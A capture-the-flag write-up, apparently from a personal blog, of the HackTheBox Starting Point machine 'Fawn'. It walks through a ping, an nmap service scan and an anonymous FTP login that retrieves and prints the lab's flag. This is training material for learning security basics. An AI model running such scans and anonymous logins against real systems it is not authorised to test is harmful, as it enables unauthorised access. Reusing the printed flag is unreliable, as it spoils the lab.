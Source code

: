 ```yaml
---
title: HackTheBox - Fawn
date: 2023-12-24 18:15:00 +0700
categories:
  - HackTheBox
  - Starting Point
tags:
  - ftp
  - very_easy
  - hackthebox
image:
  path: /assets/img/hackthebox/starting_points/Fawn.png
  alt: Fawn - HackTheBox
---
```


[**Fawn**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Fawn we will learn about **FTP (File Transfer Protocol)**.

## Introduction

- Connect **Fawn** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Reconnaissance

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After spawn machine, we can start with ping Target IP.

```bash
❯ ping 10.129.137.216

PING 10.129.137.216 (10.129.137.216) 56(84) bytes of data.
64 bytes from 10.129.137.216: icmp_seq=1 ttl=63 time=343 ms
64 bytes from 10.129.137.216: icmp_seq=2 ttl=63 time=239 ms
64 bytes from 10.129.137.216: icmp_seq=3 ttl=63 time=666 ms
64 bytes from 10.129.137.216: icmp_seq=4 ttl=63 time=298 ms

--- 10.129.137.216 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3000ms
rtt min/avg/max/mdev = 238.540/386.458/666.284/165.747 ms
```

### Nmap

To be able to see all open ports, we can use `Nmap`, `-sCV` is a combination of `-sC` and `-sV`, where `-sC` displays the script for the port and `-sV` displays the version info for the port. 

```bash
❯ nmap -sCV 10.129.137.216

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-24 18:42 WIB
Nmap scan report for JSN.JaringanKU (10.129.137.216)
Host is up (1.6s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.104
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.91 seconds
```

## Foothold

OK, you can see the open port 21/tcp which is the FTP service. We can generally connect to FTP by using the username `anonymous` and without using a password.

### FTP

```bash
❯ ftp 10.129.137.216

Connected to 10.129.137.216.
220 (vsFTPd 3.0.3)
Name (10.129.137.216:huda): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 6,8e-05 seconds (460 kbytes/s)
ftp> bye
221 Goodbye.
```

After downloading the file, exit FTP and check your working directory.

```bash
❯ ls
 flag.txt

❯ cat flag.txt
035db21c881520061c53e0536e44f815
```
